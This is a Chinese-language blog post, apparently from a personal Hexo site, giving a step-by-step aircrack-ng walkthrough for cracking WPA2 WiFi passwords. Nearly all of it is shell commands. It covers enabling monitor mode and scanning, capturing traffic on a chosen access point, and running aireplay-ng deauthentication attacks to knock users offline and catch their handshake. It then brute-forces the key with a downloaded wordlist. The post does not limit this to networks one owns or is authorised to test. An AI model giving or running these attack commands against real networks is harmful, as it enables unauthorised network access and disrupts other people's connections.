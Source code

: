 ```yaml
---
title: wifi密码破解
top: false
cover: false
toc: true
mathjax: true
date: 2023-01-16 06:29:43
password:
summary: Wifi密码暴力破解，不一定成功
tags: wifi
categories: Linux
---
```


### aircrack-ng工具安装
> 如果你是Kali用户，那么可以跳过这一步，Kali自动，我们以Ubuntu为例：
```shell
sudo apt install aircrack-ng # 安装aircrack-ng 这个工具kali-linux默认安装了
```

### 查看无线网卡
```shell
airmon-ng # 查看可用的无线网卡一般以`w`开头
```

### 开启监听模式
```shell
airmon-ng start <网卡名称> # 指定无线网卡开启监听模式
```

### 扫描附近的无线网
```shell
airodump-ng <处于监听模式的网卡名称> # 用这个监听网卡扫描附近的无线网络

# airodump-ng wlp8s0mon
# BSSID: 无线 AP 的硬件地址
# PWR: 信号强度，值是负数，绝对值越小表示信号越强
# CH: 无线网络信道
# ENC: 加密方式，我们要破解的是 WPA2
# ESSID: 无线网络的名称
```

### 监听你想破解的无线网
```shell
airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称> # 使用参数过滤扫描列表，确定扫描目标,可以出指定wifi哪些人在使用 只要有人链接这个wifi就会被抓包

# BSSID: 无线 AP 的硬件地址
# STATION: 用户设备的硬件地址
```

### 对无线AP或者用户设备发起ACK攻击
```shell
aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> -c <用户设备硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对目标设备发起ack攻击 让他强制下线 方便他重新链接抓包成功

aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对无线AP设备发起ack攻击 让连接他的设备都下线 方便他重新链接抓包成功
```

### 破解密码
```shell
aircrack-ng -w 密码字典 <包含握手包的 cap 文件> # 使用 aircrack-ng 暴力破解 Wi-Fi 密码 成功会返回 KEY FOUND! 密码字典去网上下载多得很 
```

### 退出监听模式，连接无线网
```shell
airmon-ng stop <处于监听模式的无限网卡名称> # 无线网卡退出监听模式
```

### 使用命令连接网络
```shell
sudo systemctl start NetworkManager # 开启网络服务

ip addr 或者 ifconfig # 查看无线网卡名称(w开头得)

iwlist 无线网卡 scanning | grep -i essid # 扫描可用wifi

nmcli device wifi connect wifi名字 password wifi密码 ifname 无线网卡 # 用这个无线网卡链接指定wifi
```

### 卸载ubuntu系统的IO驱动，不让别人乱碰你得电脑
```shell
sudo apt install xserver-xorg-input-all # 安装

sudo apt autoremove xserver-xorg-input-all # 卸载
```

